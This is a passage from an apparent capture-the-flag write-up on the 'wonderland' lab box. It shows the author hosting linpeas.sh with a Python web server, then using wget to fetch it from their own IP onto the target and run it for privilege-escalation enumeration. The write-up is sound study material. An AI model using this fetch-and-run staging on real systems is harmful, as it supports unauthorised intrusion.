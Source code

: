 oh...
<br>
<br>

After floundering about for a bit, I decided to upload `linpeas.sh`, which is a shell script that will enumerate a system in a bright color scheme so you can scan through the results quick. You can read more about it and download [here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS). Just like before we need to first spin up a web server with `python3 -m http.server` in the directory with the script in it. Then we get on the wonderland box and grab the file with `wget http://<your-ip-address-here>:<port #>/linpeas.sh`.
Once the file is on wonderland, change the permission with `chmod +x linpeas.sh`, then run the script with `./linpeas.sh`.
<br>
<br>

![](/assets/images/wonderland/wonderland_linpeas.png)
<br>
<br>

## Even More Privilege Escalation
Parsing through the linpeas looking for any interesting red text, we find:
<br>
<br>

![](/assets/images/wonderland/wonderland_hatter_priv_esc.png)
<br>
<br>
